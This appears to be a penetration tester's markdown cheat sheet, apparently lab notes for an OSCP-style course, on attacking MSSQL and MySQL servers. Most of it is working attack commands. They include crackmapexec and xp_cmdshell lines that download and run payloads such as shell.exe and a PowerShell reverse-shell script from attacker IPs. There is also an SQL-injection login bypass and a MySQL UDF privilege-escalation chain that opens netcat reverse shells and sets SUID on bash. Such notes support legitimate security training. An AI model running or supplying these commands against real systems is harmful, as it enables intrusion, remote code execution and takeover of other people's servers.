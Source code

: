 # SQL
-----

## MSSQL

### Command execution using crackmapexec
```bash
cme mssql 10.11.1.31 -u sa -p 'poiuytrewq' --local-auth -x "whoami"
```

```bash
cme mssql 10.11.1.111 -u sa -p 'sqls3rv3r' --local-auth -x "certutil.exe -urlcache -split -f http://192.168.119.230:8000/shell.exe shell.exe & shell.exe"
```
---------------

### Extracting hashes from master.mdf file  
(Refer [[OSCP/Labs/Public/1nsider/1nsider]])
location of master.mdf file 
```shell
\Program Files\SQL Server\MSSQL14.SQLEXPRESS\MSSQL\DATA\master.mdf
```

Sometimes the file can also be in the Backup directory.

absolute path of the file (dir /x)
```bash
\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf
```

After downloading this file we can extract hashes using this ps1 script:
https://blog.xpnsec.com/extracting-master-mdf-hashes/

Importing custom dll:
```Powershell
Add-Type -AssemblyName ./OrcaMDF.Framework.dll 
Add-Type -AssemblyName ./OrcaMDF.RawCore.dll
```

https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes
https://github.com/xpn/Powershell-PostExploitation/issues/1
Crack the hash using John.

--------

### XP_CMDSHELL
Refer [[dj]]
configuring
```txt
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

testing using certutil
```txt
';EXEC xp_cmdshell 'certutil -f -urlcache http://192.168.119.219/test.txt';--
```

importing and executing Invoke-PowerShellTcp.ps1 for reverse shell
```txt
';EXEC xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString('http://192.168.119.219/Invoke-PowerShellTcp.ps1.')"--
```

https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/
https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell-with-nishang/
https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
---------------

### XP_DIRTREE

xp_dirtree


-------




### MSSQL injection   
(Refer [[Mail]])
https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/
https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/
https://kaoticcreations.blogspot.com/2011/10/microsoft-sql-server-mssql-and-sql.html
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet







### SQL Injection authentication bypass
----------
```
admin' -- -
```





## MySQL
-----------

connecting to a mysql instance
```bash
mysql -h localhost -u root -p   # will prompt for password
```


### Privilege escalation using UDF
when we know the password of the sql instance and the instance is being run as root:
```bash
ps aux | grep root | grep sql
```

https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

download the raptor_udf2.c from https://www.exploit-db.com/exploits/1518
compile the  C code into a .so:

```bash
gcc -g -c raptor_udf2.c

gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Now authenticate to mysql and run the following commands:
```bash
show variables like '%plugin%';  # locating the plugin path

show variables like '%secure_file_priv%';  # if the returned value is empty it means the variable is empty and we can load data into the database

use mysql;

create table foo(line blob);

insert into foo values(load_file('/var/www/raptor_udf2.so'));

insert into foo values(load_file('/tmp/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';


select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';

create function do_system returns integer soname 'raptor_udf2.so';

select * from mysql.func;  # confirm the function is present

select do_system('/usr/bin/nc 192.168.49.136 8080 -e /bin/bash');
select do_system('chmod +s /bin/bash');
select do_system('m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.22 8080 >/tmp/f');

select do_system('cp /bin/bash /tmp/bash');
select do_system('chmod +s /tmp/bash');

```
------------------
